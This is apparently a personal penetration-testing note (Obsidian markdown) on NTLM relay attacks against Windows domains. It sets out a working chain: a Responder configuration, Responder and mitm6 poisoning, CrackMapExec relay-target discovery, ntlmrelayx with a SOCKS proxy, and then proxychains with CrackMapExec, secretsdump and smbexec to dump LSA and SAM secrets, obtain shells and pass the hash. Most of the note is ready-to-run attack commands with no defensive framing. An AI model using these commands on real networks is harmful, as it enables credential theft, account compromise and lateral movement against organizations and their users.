 ```yaml
---
creation date: September 8th 2022
last modified date: September 8th 2022
aliases: []
tags: #📕
---
```

hi
Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[ntlmrelayx.py]]  
___

## Socks Proxy Relaying

Configure Responder with `SMB` and `HTTP` turned off in `/etc/responder/Responder.conf`

``````
[Responder Core]

; Servers to start
SQL = On
SMB = Off
RDP = On 
Kerberos = On
FTP = On 
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On  
LDAP = On
``````

````
sudo responder -I eth0 -r -d -w
````


Make sure /etc/proxychains.conf is configured to use port 1080

Find machines with SMB signing disabled

```
cme smb <networkIP>/<cidr> --gen-relay-list relayTargets.txt
```

Run ntlmrelayx.py

``````

sudo python3 ntlmrelayx.py -tf ~/Desktop/targets -socks -smb2support

``````

^a8df20

type `socks` into our relay prompt to see the active connections available.

Look for a connection that has AdminStatus set to true.

Instead of abusing LLMNR and other older protocols, we can use `mitm6` to abuse IPv6. The idea is to reply to DHCPv6 requests made by machines on the network to set the attacker IP as the default IPv6 DNS server in order to force victims to authenticate against our attacker machine(you have to turn off dns in responder.conf). ^331793

More details here: [[mitm6.py]]

```
sudo mitm6 -d testdomain.local
```

Use proxychains with crackmapexec to use these sessions. The password we provide is arbitrary since the SOCKS proxy is going to use the session we gained from relaying auth previously. The IP and user should come from the output of running socks in ntlmrelayx.py.

`proxychains cme smb 10.1.1.206 -u user -p pass -d Domain --lsa

Using the --lsa will dump hashes and clear text passwords from registry secrets. Using --sam will obtain local account hashes.


secretsdump.py from impacket will also dump local hashes

```
proxychains ./secretsdump.py vulnerable/Administrator@192.168.48.230
```

Or you can get a shell with Impackets smbexec
```
proxychains smbexec.py <domain>/<relayedUser>@192.168.10.60
```



Validate any clear text passwords or hashes that were cracked work using crackmapexec. 

`proxychains cme smb 10.1.1.1/24 -u user -p pass -d Domain


You can also passthehash with crackmapexec if you get ntlmv1 hashes.


`proxychains cme smb 10.1.1.1/24 -u user -H hashgoeshere -d Domain


You can use bloodhound to see if those accounts have local admin on any other machine and dump lsa and sam from them. 

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 8th 2022 (10:12 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
